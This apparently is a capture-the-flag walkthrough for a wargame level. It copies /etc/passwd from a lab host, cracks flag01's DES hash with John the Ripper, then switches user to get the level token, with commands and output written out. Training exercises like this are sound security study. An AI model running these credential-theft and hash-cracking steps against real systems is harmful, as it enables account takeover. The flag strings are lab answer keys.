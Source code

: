 ## FLAG : `x24ti5gi3x0ol2eh4esiuxias`

## Still nothing in home
> ls -la
```
    total 12
    dr-x------ 1 level01 level01  100 Mar  5  2016 .
    d--x--x--x 1 root    users    340 Aug 30  2015 ..
    -r-x------ 1 level01 level01  220 Apr  3  2012 .bash_logout
    -r-x------ 1 level01 level01 3518 Aug 30  2015 .bashrc
    -r-x------ 1 level01 level01  675 Apr  3  2012 .profile
```

## But there something suspicious in /etc/passwd
```
    ...
    flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
    ...
```
## Second field `42hDRfypTqqnw` is the hash of flag01's password

------------------------------------------------

## We'll use `John The Ripper` to dehash this

## John need the `/etc/passwd` file
## We import this to our mahine
> scp -P 4242 level01@127.0.0.1:/etc/passwd .

## And put it Through john
> john --show passwd
> ~/42/john-1.9.0/run/john --show passwd
```
flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash

1 password hash cracked, 0 left
```
## The password for flag01 is `abcdefg`

------------------------------------------------

> su flag01
> getflag
```
    Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```